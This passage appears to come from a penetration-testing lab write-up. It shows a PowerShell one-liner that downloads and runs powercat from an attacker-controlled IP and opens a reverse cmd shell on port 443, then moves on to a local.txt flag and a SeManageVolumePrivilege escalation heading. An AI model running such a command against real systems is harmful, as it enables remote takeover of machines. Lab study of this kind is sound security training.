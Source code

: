 We will put the following line inside the `-Command` brackets:

```powershell
Powershell IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.185/powercat.ps1');powercat -c 192.168.45.185 -p 443 -e cmd"
```

![](../../../assets/63ea22103e7dcebd4fe685c1e49967cf.png)

![](../../../assets/eb5a59f70420478f21abab36b677ae2c.png)

### local.txt

![](../../../assets/6718942627c479bb07be03e0f2cc363e.png)

# Privilege Escalation
## SeManageVolumePrivilege
